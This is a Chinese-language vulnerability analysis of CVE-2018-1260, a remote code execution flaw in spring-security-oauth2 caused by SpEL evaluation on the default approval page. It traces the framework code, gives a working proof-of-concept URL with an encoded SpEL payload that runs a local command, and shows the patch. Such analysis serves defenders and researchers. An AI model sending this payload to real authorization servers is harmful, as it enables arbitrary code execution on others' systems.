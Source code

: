```yaml
---
layout: page
title: CVE-2018-1260 spring-security-oauth2 RCE Analysis
---
```



> Auth by [Cryin](https://github.com/Cryin)

#### 介绍

根据Sping官方给出的公告信息，spring-security-oauth若干版本中包含一个RCE漏洞,恶意攻击者构造特定授权请求，当资源所有者将其转发给approval批准页面时可导致远程代码执行。

漏洞触发条件：
* 应用程序做为授权服务器角色 (例如使用注解@EnableAuthorizationServer)
* 使用默认的Approval Endpoint

实际开发中，大部分oauth2使用者一般都会重写Approval Endpoint以满足自身需求。所以初步看这个漏洞利用条件还是比较苛刻的。
受影响版本及详细可参考官方的公告：
> [Spring Security OAuth：versions 2.3 prior to 2.3.3 and 2.2 prior to 2.2.2 and 2.1 prior to 2.1.2 and 2.0 prior to 2.0.15 and older unsupported versions](https://pivotal.io/security/cve-2018-1260)

#### 漏洞DEMO分析

官方的[sample](https://github.com/spring-projects/spring-security-oauth/tree/master/tests/annotation/approval)示例代码及网络上关于oauth2的demo不少，以[Spring Security OAuth2 Demo工程](https://github.com/wanghongfei/spring-security-oauth2-example)为例新进行调试分析。作者给出了mysql表信息，创建数据库并添加一条测试数据即可以运行该demo，详细见sample代码库README描述。

可以看到这个demo启动类使用了@EnableAuthorizationServer注解，并且使用默认的授权批准页面。这里要说明的是authorization code模式的授权方式，如图所示：
![bg2014051204.png](http://www.ruanyifeng.com/blogimg/asset/2014/bg2014051204.png)
用户发起授权请求时，client端将用户导向认证服务器，用户认证后进行approval授权批准，用户approval后，认证服务器将用户导向client端事先指定的重定向URIredirection URI），同时附上一个授权码，client端拿这个授权码向认证服务器申请访问令牌及刷新令牌，从而完成Oauth授权。在spring-security-oauth2中默认由请求/oauth/authorize处理授权请求，代码如下：

```java
@RequestMapping(value = "/oauth/authorize")
	public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters,
			SessionStatus sessionStatus, Principal principal) {
		AuthorizationRequest authorizationRequest = getOAuth2RequestFactory().createAuthorizationRequest(parameters);

		Set<String> responseTypes = authorizationRequest.getResponseTypes();

		if (!responseTypes.contains("token") && !responseTypes.contains("code")) {
			throw new UnsupportedResponseTypeException("Unsupported response types: " + responseTypes);
		}

		if (authorizationRequest.getClientId() == null) {
			throw new InvalidClientException("A client id must be provided");
		}
    ....
    oauth2RequestValidator.validateScope(authorizationRequest, client);
    ....
    return getAuthorizationCodeResponse(authorizationRequest, (Authentication) principal);
    ....
      
```
逐步往下看，其中createAuthorizationRequest函数处理授权请求参数并构造AuthorizationRequest对象，主要包含一下参数：

* response_type：表示授权类型，必选项，授权码模式此处的值固定为"code"
* client_id：表示客户端的ID，必选项
* redirect_uri：表示重定向URI，可选项
* scope：表示申请的权限范围，可选项
* state：表示客户端的当前状态，可以指定任意值，认证服务器会原封不动地返回这个值。

而后面的validateScope会对scope参数进行校验检查，如果clientScopes不为空则进行白名单检查，如果授权请求传入的scope不在设置的clientScopes这个list中，则抛出异常Invalid scope,如果clientScopes为空，则仅校验输入的scope不为空即会继续执行程序。而这个漏洞的触发点正式scope参数，所以在示例demo中一定要设置clientScopes为空，这也是这个漏洞触发的一个前提条件。validateScope的代码如下：
```java
private void validateScope(Set<String> requestScopes, Set<String> clientScopes) {

		if (clientScopes != null && !clientScopes.isEmpty()) {
			for (String scope : requestScopes) {
				if (!clientScopes.contains(scope)) {
					throw new InvalidScopeException("Invalid scope: " + scope, clientScopes);
				}
			}
		}
		
		if (requestScopes.isEmpty()) {
			throw new InvalidScopeException("Empty scope (either the client or the user is not allowed the requested scopes)");
		}
	}
```
最后调用getAuthorizationCodeResponse将请求forward至/oauth/confirm_access页面，由用户进行approval批准授权，代码如下：
```java
// We need explicit approval from the user.
	private ModelAndView getUserApprovalPageResponse(Map<String, Object> model,
			AuthorizationRequest authorizationRequest, Authentication principal) {
		if (logger.isDebugEnabled()) {
			logger.debug("Loading user approval page: " + userApprovalPage);
		}
		model.putAll(userApprovalHandler.getUserApprovalRequest(authorizationRequest, principal));
		return new ModelAndView(userApprovalPage, model);
	}
```
这里userApprovalPage即为/oauth/confirm_access，model中包含了之前构造的授权请求AuthorizationRequest对象。[ModelAndView](https://docs.spring.io/spring/docs/current/javadoc-api/org/springframework/web/servlet/ModelAndView.html)简单说就是MVC框架中包含Model和View的对象，ModelAndView返回模型和视图后由DispatcherServlet解析处理该请求。随之程序进入/oauth/confirm_access，代码如下：
```java
@RequestMapping("/oauth/confirm_access")
	public ModelAndView getAccessConfirmation(Map<String, Object> model, HttpServletRequest request) throws Exception {
		String template = createTemplate(model, request);
		if (request.getAttribute("_csrf") != null) {
			model.put("_csrf", request.getAttribute("_csrf"));
		}
		return new ModelAndView(new SpelView(template), model);
	}
```
createTemplate函数创建模版视图，经过一些替换及拼接处理得到最终的template如下：
![oauth1.png](https://i.loli.net/2018/11/05/5be03700c7d9a.png)
然后调用了SpelView初始化view对象。传入ModelAndView展示approval批准授权页面，之后DispatcherServlet解析处理，之后通过view.render调用加载视图。
```java
try {
			view.render(mv.getModelInternal(), request, response);
		}
		catch (Exception ex) {
			if (logger.isDebugEnabled()) {
				logger.debug("Error rendering view [" + view + "] in DispatcherServlet with name '" +
						getServletName() + "'", ex);
			}
			throw ex;
		}
```
因为这里的view是SpelView对象，所以进入SpelView类的render方法：
```java
public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response)
			throws Exception {
		Map<String, Object> map = new HashMap<String, Object>(model);
		String path = ServletUriComponentsBuilder.fromContextPath(request).build()
				.getPath();
		map.put("path", (Object) path==null ? "" : path);
		context.setRootObject(map);
		String maskedTemplate = template.replace("${", prefix);
		PropertyPlaceholderHelper helper = new PropertyPlaceholderHelper(prefix, "}");
		String result = helper.replacePlaceholders(maskedTemplate, resolver);
		result = result.replace(prefix, "${");
		response.setContentType(getContentType());
		response.getWriter().append(result);
	}
```
调试跟进replacePlaceholders函数，可以看到函数调用了parseStringValue方法，并将模版中每一个变量值都传入resolvePlaceholder方法将输入变量做为Spel表达式去解析，resolvePlaceholder方法如下：
```java
public String resolvePlaceholder(String name) {
				Expression expression = parser.parseExpression(name);
				Object value = expression.getValue(context);
				return value == null ? null : value.toString();
			}
```
其中expression.getValue会最终调用继承了MethodExecutor的ReflectiveMethodExecutor执行java.lang.Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator")，从而造成任意代码执行漏洞。理论上这里传入的name参数包括_csrf.token、client、path、scope等参数只要可控，都可以造成代码执行。
![oauth2.png](https://i.loli.net/2018/11/05/5be036fe48deb.png)

#### 漏洞POC

http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/cryin/paper&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22/Applications/Calculator.app/Contents/MacOS/Calculator%22%29%7D


#### 补丁对比

通过补丁可以看到官方把SpelView去掉，转而使用普通的View对象，同时对默认模版进行了一些修改。
[Remove SpelView in WhitelabelApprovalEndpoint · spring-projects/spring-security-oauth@1c6815a · GitHub](https://github.com/spring-projects/spring-security-oauth/commit/1c6815ac1b26fb2f079adbe283c43a7fd0885f3d)：https://github.com/spring-projects/spring-security-oauth/commit/1c6815ac1b26fb2f079adbe283c43a7fd0885f3d

#### 总结
通过分析可知，这个漏洞触发的前提条件较多，除文章开头官方给出的两个条件外，授权服务的scope也需要设置为空，这种情况在实际应用中非常少见。但这个漏洞的重点不是Oauth本身，而是Spel表达式使用带来潜在的安全问题。诸如SpelView等涉及spel表达式解析的接口应该还很多。只要参数外部可控均有可能造成任意代码执行。这个问题有点和Struts2的OGNL表达式相似。Spel表达式注入可能是Spring后面会面临较多的安全问题。挖漏洞也可以从这个方向入手。

#### 参考

* [h3xStream's blog: Beware of the Magic SpEL(L) - Part 1 (CVE-2018-1273)](https://blog.h3xstream.com/2018/05/beware-of-magic-spell-part-1-cve-2018.html)
* [Remove SpelView in WhitelabelApprovalEndpoint · spring-projects/spring-security-oauth@1c6815a · GitHub](https://github.com/spring-projects/spring-security-oauth/commit/1c6815ac1b26fb2f079adbe283c43a7fd0885f3d)
* [GitHub - wanghongfei/spring-security-oauth2-example: Spring Security OAuth2 Demo工程](https://github.com/wanghongfei/spring-security-oauth2-example)
* [Spring Security OAuth](http://projects.spring.io/spring-security-oauth/docs/oauth2.html)
* [理解OAuth 2.0 - 阮一峰的网络日志](http://www.ruanyifeng.com/blog/2014/05/oauth_2_0.html?tdsourcetag=s_pctim_aiomsg)
* [spring-security-oauth/tests/annotation/approval at master · spring-projects/spring-security-oauth · GitHub](https://github.com/spring-projects/spring-security-oauth/tree/master/tests/annotation/approval)
